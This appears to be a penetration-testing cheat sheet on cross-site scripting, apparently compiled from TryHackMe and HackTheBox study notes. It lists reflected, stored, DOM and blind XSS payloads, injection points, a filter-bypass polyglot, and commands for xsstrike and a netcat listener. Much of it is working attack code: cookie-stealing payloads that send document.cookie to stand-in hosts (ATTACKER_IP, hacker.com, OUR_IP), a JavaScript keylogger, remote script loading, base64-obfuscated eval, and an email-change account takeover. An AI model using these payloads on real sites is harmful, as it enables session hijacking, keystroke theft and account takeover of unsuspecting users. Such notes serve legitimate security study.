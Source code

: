 # Cross-Site Scripting (XSS)

## PoC Payload: 

    <script>alert('XSS');</script>

### PoC Payload 2: 

    <img src=x onerror="document.location='http://ATTACKER_IP:PORT/'"/<

### Steal cookie XSS Payload: 

    <img src=x onerror='eval(atob("fetch('http://ATTACKER_IP:PORT/?cookie='+document.cookie)"));' /< (ENCODE THE ATOB PAYLOAD IN BASE64)

## Payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

## Places to inject XSS payloads:

### 1) User-Agent

### 2) HTTP Headers

### 3) Message Forms

## Detection methods:

### 1) Try injecting HTML code instead of JavaScript

### 2) Make sure everything is escaped so that you can bypass basic defense mechanisms

### Example: 

    <>/\script'"=

### 3) Use alternative to "alert" payload to test for XSS

### Session stealing: 

    <script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>

### Keylogger: 

    <script>document.onkeypress = function(p){ fetch ('https://hacker.com/log?key=' + btoa(p.key) );}</script>

### Change user's email address: 

    <script>user.changeEmail('attacker@hacker.com');</script>

# Stored XSS

## Test locations: 

#### 1: Comments on a blog

#### 2: User profile information

#### 3: Website listings

## IMPACT:

#### Steal victim's session cookie. Impersonate the visiting user.

# Reflected XSS

## Test locations:

#### 1: URL file path

#### 2: Parameters in the URL query string

#### 3: Sometimes, HTTP headers

## IMPACT:

#### Attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session/customer information.

# DOM Based XSS

## Test locations:

#### 1: Look for parts of the code that access certain variables that we can have control over.

#### E.g. "window.location.x" parameter.

#### When we've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as "eval()"

## IMPACT:

#### Steal content from page/user's session. Crafted links could be sent to victims, redirecting them to another site.

# BLIND XSS 

## Test locations:

#### Ensure payload has a call back (HTTP request) 

# POLYGLOT PAYLOAD

    jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e (XSS filter bypass)


## Commands

| Code | Description |
| ----- | ----- |
| **XSS Payloads** |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
| **Commands** |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80 ` | Start `PHP` server |
